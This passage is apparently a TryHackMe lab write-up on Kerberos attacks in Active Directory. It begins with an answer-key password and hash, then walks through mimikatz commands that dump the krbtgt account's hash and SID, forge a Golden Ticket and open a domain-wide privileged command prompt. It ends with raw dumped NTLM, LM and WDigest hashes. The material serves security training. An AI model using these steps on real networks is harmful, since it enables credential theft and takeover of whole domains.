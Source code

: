 ```
Stopped: Fri Nov 20 23:51:48 2020
```

`Password1`

What is the Machine2 Hash?

`c39f2beb3d2ec06a62cb887fb391dee0`

## Golden Ticket Attacks w/ mimikatz

Again using the same tool as the previous task; however, this time we'll be using it to create a golden ticket.

We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

I have already taken the time to put mimikatz on the machine.

**Dump the krbtgt Hash -**

1. `cd downloads && mimikatz.exe`
2. `privilege::debug` ensure this outputs [privilege "20" ok]
3. l`sadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

![](https://i.imgur.com/Yzq71aI.png)

**Take note of what is outlined in red you'll need it to create the golden ticket**

**Create a Golden Ticket -**

1. `kerberos::golden /user: /domain: /sid: /krbtgt: /id:`

![](https://i.imgur.com/9ZIN20L.png)

**Use the Golden Ticket to access other machine -**

1. `misc::cmd` - This will open a new command prompt with elevated privileges to all machines
   1. ![](https://i.imgur.com/iB0Io20.png)
2. Access other Machines! - You will now have another command prompt with access to all other machines on the network
   1. ![](https://i.imgur.com/BYSud9C.png)
   2. ![](https://i.imgur.com/tp3N9gt.png)

Unfortunately because tryhackme does not currently support networks you will be unable to access other machines however I encourage you to add other machines to this domain controller yourself and try out these attacks

```
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
```
